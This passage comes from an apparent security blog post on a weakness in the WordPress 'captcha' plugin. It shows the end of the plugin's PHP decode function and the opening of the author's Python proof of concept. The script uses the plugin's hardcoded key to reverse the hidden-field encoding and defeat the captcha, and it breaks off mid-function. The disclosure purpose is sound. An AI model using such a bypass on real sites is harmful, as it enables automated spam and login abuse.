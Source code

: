             if ( $Error ) 
                return false;
            else 
                return $DecodedString;
        }
    }

I should prove my above allegations? I will terminate my experiments
soon and then I'll post a exploitation of this weakness written in
Python. I will also add this POC on my github account. But for now the
explanation above will suffice.

**Edit: As promised, here is the code that reverses the decode
function:**

    :::python
    import requests
    import lxml.html
    import hashlib
    import base64

    # A blog post site that needs to have the plugin http://wordpress.org/plugins/captcha/ enabled and 
    # should have a open comment form. This 'attack' works on every form that the plugin supports [E.g. registration,
    # login, ...]. This renders the captcha completely useless.

    # Author: Nikolai Tschacher
    # Date: 07.11.2013

    # tested on my local lamp with version 3.8.7
    TARGET = "http://localhost/~nikolai/wordpress/?p=1" # The landing site.
    COMMENT_POST = "http://localhost/~nikolai/wordpress/wp-comments-post.php" # The comment form to send POST requests at.
    KEY = "bws_3110013"

    def no_plugin(reason=""):
        print('The plugin hidden fields couldn\'t be located. Make sure it is installed. Reason: {}'.format(reason))
        exit(-1)

    # This function reverses essentially the encoding of the hidden field cptch_result.
    # It is exactly the same function with the same password as in the plugin source code.
    def reverse(captcha, key, cptch_time):
        # just convert all but the captcha string to ascii
        key = key.encode('ascii')
        cptch_time = cptch_time.encode('ascii')
        